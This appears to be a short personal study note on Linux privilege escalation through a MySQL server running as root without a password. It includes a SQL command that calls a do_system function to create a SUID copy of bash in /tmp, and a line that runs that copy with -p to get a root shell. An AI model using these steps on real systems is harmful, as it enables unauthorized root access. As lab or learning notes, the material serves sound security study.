 
2024-06-14 11:07

Source: #privesc 

Firstly run the linux smart enumeration script to find entry points 
check the services that can run as root, in the current machine we can connect to `mysql` w/o password and `mysqld` is running as root

Find the version of mysql by running `mysqld --version` then find an exploit that matches the version 

 in the current machine we create an SUID version of the bash shell 
 run the following query in sql then exit out and run the file with -p
```
select do_system('cp /bin/bash /tmp/rootbash; chmod +s /tmp/rootbash');
exit

/tmp/rootbsah -p
```

### References
[[Privilege Escalation]]